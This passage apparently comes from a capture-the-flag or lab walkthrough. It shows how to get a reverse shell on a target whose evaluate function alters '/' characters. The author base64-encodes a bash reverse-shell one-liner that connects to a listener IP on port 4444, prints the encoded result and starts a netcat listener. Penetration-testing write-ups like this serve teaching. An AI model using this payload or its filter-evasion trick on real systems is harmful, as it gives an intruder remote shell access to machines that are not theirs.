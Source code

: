 Now we'll prepare our exploit to get a reverse shell on the target machine

It should also be noted the `/` characters in the user payload would be converted to `* 1.0 /` by the `evaluate` function, so we'll use base64 to encode the payload

![](<../../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

```bash
echo 'bash -c "bash -i >& /dev/tcp/192.250.81.2/4444 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjUwLjgxLjIvNDQ0NCAwPiYxIgo=
```

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

Start a netcat listener

![](<../../../../.gitbook/assets/image (42) (1) (1) (1) (1).png>)
